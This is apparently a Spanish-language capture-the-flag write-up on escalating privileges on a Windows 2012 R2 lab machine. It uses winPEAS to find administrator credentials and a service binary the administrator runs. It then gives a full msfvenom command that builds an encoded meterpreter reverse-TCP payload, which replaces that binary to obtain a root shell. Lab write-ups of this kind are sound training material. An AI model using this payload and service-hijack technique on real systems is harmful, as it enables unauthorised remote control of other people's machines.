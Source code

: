 ¿Cuál es el sistema operativo? Windows 2012 R2 (6.3 Build 9600)

Nos dicen que utilizemos el "indows-exploit-suggester" para identificar vulnerabilidades, vamos a elllo.

Yo en mi caso prefieor utilizar winpeas

https://github.com/peass-ng/PEASS-ng/releases/tag/20231203-9cdcb38f

![image](https://github.com/user-attachments/assets/488bf515-7c11-4a06-a8b3-abe1924aed2f)

Una vez subido a la máquina victima simplemente lo ejecutamos

```
shell
.\winPEASx64.exe
```

![image](https://github.com/user-attachments/assets/84ae2c54-1580-400b-8600-102629dea816)

Aquí vemos un poco de lo que veremos, red, indica privilegios especiales para malas configuraciones, verde protecciones 

Por ahora sacamos cositas como credenciales de administrador

![image](https://github.com/user-attachments/assets/59d47305-82a6-4dd5-b887-3fed64a86793)

![image](https://github.com/user-attachments/assets/7fe8b07b-a882-4d0a-94f8-17e456477a24)

Encontramos un servicio un poco extraño vamos a redirigirnos a el

Parece ser que hay un binario que esta siendo ejecutado por el administrador todo el rato

![image](https://github.com/user-attachments/assets/33e6b1f7-7c67-43ec-a1d5-5747905bb999)

Simplemente lo que haría es crear un payload o una shell con ese nombre y subirlo

```
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=IP LPORT=PORT -f exe -o message.exe
```

En este momento deberemos encontrar el "Message.exe" pista esta en donde los servicios, una vez lo tengamos le cambiaremos el nombre y subiremos nuestro payload igual que las anteriores veces

![image](https://github.com/user-attachments/assets/840170f5-055f-4fdd-883d-ba809b7b16a1)

GG SOMOS ROOT ahora sacaremos las flags de usuario y root







